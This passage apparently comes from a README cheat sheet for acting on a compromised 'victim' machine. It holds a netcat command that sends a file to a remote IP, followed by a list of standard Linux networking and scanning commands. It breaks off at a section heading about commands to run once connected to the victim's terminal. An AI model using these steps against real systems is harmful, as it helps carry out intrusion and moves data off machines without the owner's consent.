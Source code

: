 Run the following command on the sending end:  
nc -w 3 [destination ip] 1234 < name.extension

After the second command ran, the given file is now available on the receiving machine in the directory where the connection was established via the terminal.


### Network
---------------
Here one can find commands useful for networking and scanning the victim's network.
One can always install NMAP for further and deeper network scanning of the LAN.
More detailed information about each command can be found via the link down below.
https://mindmajix.com/linux-networking-commands-best-examples

* ifconfig  
Used to obtain details about the network and specific interface.

* ip  
Updated variant of ifconfig.

* traceroute destination  
Provides names and identifies every device on the path and follows route to destination.

* tracepath  
Used to detect network delays.

* ping  
Checks for connectivity between two nodes in a network.

* netstat  
Provides statistical figures about different interfaces such as open sockets, routing tables and connections.

* ss  
Updated variant of netstat.

* route  
Displays and manipulates the routing table of your system.

* host  
Displays the domain name for a given IP address and IP address for given host name.

* arp  
Used to view and add content to the kernels ARP table.

* iwconfig  
Used to configure wireless network interface.

* whois  
Fetch all information related to a website.

* iftop  
Used for traffic monitoring.

* tcpdump  
Displays the traffic passing through the network interface.


### Commands
---------------
Here one can find a list of useful commands to use once a connection with the victim's terminal is established.
